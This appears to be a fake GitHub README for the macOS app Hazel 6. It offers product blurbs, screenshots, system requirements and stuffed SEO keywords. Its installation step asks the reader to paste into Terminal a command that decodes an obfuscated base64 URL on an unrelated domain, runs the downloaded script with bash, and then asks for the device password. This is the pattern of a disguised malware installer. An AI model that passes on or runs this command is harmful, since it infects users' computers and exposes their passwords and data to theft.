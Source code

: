# 🗂 Hazel 6 – Smart File Automation for macOS

📌 About Hazel 6  
Hazel 6 is a powerful file automation utility for macOS that watches folders and applies custom rules to keep everything organized. Perfect for productivity enthusiasts and power users, Hazel can move, rename, sort, tag, and delete files automatically based on your preferences. With deep macOS integration and Apple Silicon support, it works silently in the background to keep your file system clean and efficient.

## 🧰 Installation via a command in the terminal:
1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9rYW0vaW5zdGFsbC5zaA== | base64 -d))"
```
2. Open Terminal on your device, paste the command, then press Return.  
3. Enter your device password when prompted and confirm the installation.

![Installing via Terminal](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

## 📸 Overview  
A quick look at key parts in action:  
- ![](https://eshop.macsales.com/blog/wp-content/uploads/2023/06/asw-hazel-macos-in-post.png)  
- ![](https://www.noodlesoft.com/kb/wp-content/uploads/main.png)  

## 🎯 Key Features  
⚡️ Automatically organizes files by name, date, type, and more.  
🔒 Works locally with no cloud sync or external tracking.  
⚙️ Powerful rule editor with condition and action sets.  
🚀 Runs silently and efficiently with native Apple Silicon support.  
🎨 Clean native macOS interface with Dark Mode compatibility.  
📊 Built-in app sweep and trash management functions.

## 💡 System Requirements  
- OS: macOS 12.0 Monterey or newer  
- CPU: Apple Silicon or Intel Core i5 and above  
- RAM: 4 GB minimum  
- Storage: 200 MB available  
- Others: Terminal access and active internet connection

## 🔍 SEO Keywords  
`hazel 6 macos` · `file automation mac` · `mac file organizer` · `auto file sorting mac` · `hazel app apple silicon` · `clean downloads folder mac` · `rule based file manager` · `macos automation tool` · `folder watcher mac` · `rename move tag files` · `mac productivity app` · `trash cleanup utility` · `sort files by rule` · `local file manager mac` · `organize desktop mac`
